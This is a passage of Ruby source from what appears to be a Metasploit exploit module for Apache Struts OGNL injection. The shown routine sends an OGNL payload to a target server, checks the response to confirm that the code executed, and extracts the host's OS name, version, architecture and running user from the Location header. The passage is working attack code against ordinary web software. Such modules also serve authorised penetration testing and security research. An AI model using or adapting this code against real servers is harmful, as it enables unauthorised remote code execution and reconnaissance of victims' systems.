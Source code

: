         r = send_struts_request(ognl)

        if r.code == 400
          fail_with(Failure::UnexpectedReply, "Server returned HTTP 400, consider toggling the ENABLE_STATIC option")
        elsif r.headers['Location']
          # r.headers['Location'] should look like '/bILinux:amd64:4.4.0-112-generic:root:en/help.action'
          #   Extract the OGNL output from the Location path, and strip the two random chars
          s = r.headers['Location'].split('/')[1][2..-1]

          if s.nil?
            # Since the target didn't respond with an HTTP/400, we know the OGNL code executed.
            #   But we didn't get any output, so we can't profile the target.  Abort.
            return nil
          end

          # Confirm that all fields were returned, and non include extra (:) delimiters
          #   If the OGNL fails, we might get a partial result back, in which case, we'll abort.
          if s.count(':') > properties.length
            print_error("Failed to profile target.  Response from server: #{r.to_s}")
            fail_with(Failure::UnexpectedReply, "Target responded with unexpected profiling data")
          end

          # Separate the colon-delimited properties and store in the 'properties' hash
          s = s.split(':')
          i = 0
          properties.each do |k,v|
            properties[k] = s[i]
            i += 1
          end

          print_good("Target profiled successfully: #{properties[:'os.name']} #{properties[:'os.version']}" +
            " #{properties[:'os.arch']}, running as #{properties[:'user.name']}")
          return properties
        else
          print_error("Failed to profile target.  Response from server: #{r.to_s}")
          fail_with(Failure::UnexpectedReply, "Server did not respond properly to profiling attempt.")
        end
      end
